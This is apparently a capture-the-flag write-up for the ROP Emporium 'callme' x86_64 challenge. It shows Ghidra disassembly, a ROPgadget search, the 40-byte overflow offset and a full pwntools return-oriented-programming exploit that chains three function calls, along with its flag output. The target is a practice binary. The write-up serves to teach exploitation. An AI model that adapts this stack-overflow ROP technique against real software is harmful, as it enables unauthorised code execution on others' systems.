# callme Writeup

## Steps:
1. Run callme
```
$ ./callme 
callme by ROP Emporium
x86_64

Hope you read the instructions...

> AAAA
Thank you!

Exiting
```

2. Analyze in ghidra.

Notice function `usefulFunction` - we need to use callme one, two, and three to complete the challenge. 
> Information provided in instructions:
> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag.
> For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
```
void usefulFunction(void)

{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined usefulFunction()
             undefined         <UNASSIGNED>   <RETURN>
                             usefulFunction                                  XREF[2]:     00400a58, 00400b38(*)  
        004008f2 55              PUSH       RBP
        004008f3 48 89 e5        MOV        RBP,RSP
        004008f6 ba 06 00        MOV        EDX,0x6
                 00 00

```
2. Use `ropGadet` to identify a gadget we can use to pop the argments in. Since each function has 3 arguments, we need to pop rdi, rsi, and rdx.
>rdi:    First Argument
>
>rsi:    Second Argument
>
>rdx:    Third Argument
>
>rcx:    Fourth Argument
>
>r8:     Fifth Argument
```
$ ROPgadget --binary callme | grep 'pop rdi'

0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```
3. Determine the distance to the return. `0x28` means we need `40 bytes` of garbage to reach the return pointer
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined pwnme()
             undefined         <UNASSIGNED>   <RETURN>
             undefined1[32]    Stack[-0x28]   input                                   XREF[2]:     004006f0(*), 
                                                                                                   0040071f(*)  
                             pwnme                                           XREF[3]:     main:004006d2(c), 00400880, 
                                                                                          00400948(*)  
        004006e8 55              PUSH       RBP

```
4. Determine addresses of callme_one, callme_two, and callme_three using ghidra. XREF gives an address we can use. Do this for all 3 functions.
```
                             **************************************************************
                             *                       THUNK FUNCTION                       *
                             **************************************************************
                             thunk undefined callme_one()
                               Thunked-Function: <EXTERNAL>::callme_one
             undefined         <UNASSIGNED>   <RETURN>
                             <EXTERNAL>::callme_one                          XREF[2]:     callme_one:00400720(T), 
                                                                                          callme_one:00400720(c), 
                                                                                          00601040(*)  
        00602030                 ??         ??

```
6. Create the payload:
   - 40 bytes of garbage
   - pop rdi, rsi, rdx address 
   - arguments (0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
   - callme_one address
   - pop, arguments, callme_two
   - pop, arguments, callme_three
```
from pwn import *

p = process('./callme')

pop = 0x40093c

cm1 = 0x400720
cm2 = 0x400740
cm3 = 0x4006f0

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
args = p64(arg1) + p64(arg2) + p64(arg3)

payload = b"A" * 40
payload += p64(pop) + args + p64(cm1)
payload += p64(pop) + args + p64(cm2)
payload += p64(pop) + args + p64(cm3)

p.sendline(payload)

p.interactive()
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './callme': pid 92018
[*] Switching to interactive mode
[*] Process './callme' stopped with exit code 0 (pid 92018)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```
